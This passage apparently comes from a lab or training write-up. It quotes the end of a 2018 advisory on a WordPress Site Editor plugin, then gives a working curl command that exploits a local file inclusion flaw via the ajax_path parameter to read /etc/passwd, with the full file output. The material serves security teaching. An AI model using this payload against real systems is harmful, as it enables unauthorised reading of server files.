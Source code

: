 ```
14/02/2018: WP Plugins team contacted; no reply
06/03/2018: vendor contacted; no reply
07/03/2018: vendor contacted; no reply
15/03/2018: public disclosure

** Credits **
Vulnerability discovered by Nicolas Buzy-Debat working at Orange Cyberdefense Singapore (CERT-LEXSI).

--
Best Regards,

Nicolas Buzy-Debat
Orange Cyberdefense Singapore (CERT-LEXSI)
```

So, in order to read `/etc/passwd`, we need to use curl in this way:

```
curl http://blog.inlanefreight.local/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd
```

And we get this output:

```
curl http://blog.inlanefreight.local/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
mrb3n:x:1000:1000:mrb3n,,,:/home/mrb3n:/bin/bash
mysql:x:111:118:MySQL Server,,,:/nonexistent:/bin/false
erika:x:1001:1001::/home/erika:/bin/bash
frank.mclane:x:1002:1002::/home/frank.mclane:/bin/bash
pollinate:x:103:1::/var/cache/pollinate:/bin/false
landscape:x:112:105::/var/lib/landscape:/usr/sbin/nologin
```
